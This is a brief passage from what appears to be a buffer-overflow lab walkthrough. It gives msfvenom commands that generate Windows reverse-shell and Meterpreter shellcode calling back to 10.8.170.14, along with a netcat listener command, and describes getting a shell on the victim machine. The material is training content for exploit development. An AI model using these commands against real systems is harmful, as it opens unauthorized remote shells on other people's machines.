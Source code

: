 # Shellcode
---

- Now we'll make the shellcode that will call back to your listener.

- Using ***msfvenom***, make sure to include the same bad chars from before:

```bash
#NETCAT SHELL
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.170.14 LPORT=4444 EXITFUNC=thread -b "\\x00" -f c -a x86

#METERPRETER SHELL
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -f c lhost=10.8.170.14 lport=5555 EXITFUNC=thread -b "\\x00"
```

- This will give us a shell. Update*** LHOST, LPORT,*** and ***badchars.***

- Setup a listener  `nc -nvvlp 4444`

- Put it all in [[Exploit.py]] and launch (you did reset Immunity, right?).

- Check your listener, you should have a shell on the victim Windows machine.

- If you don't, it's ok. Try again from the top.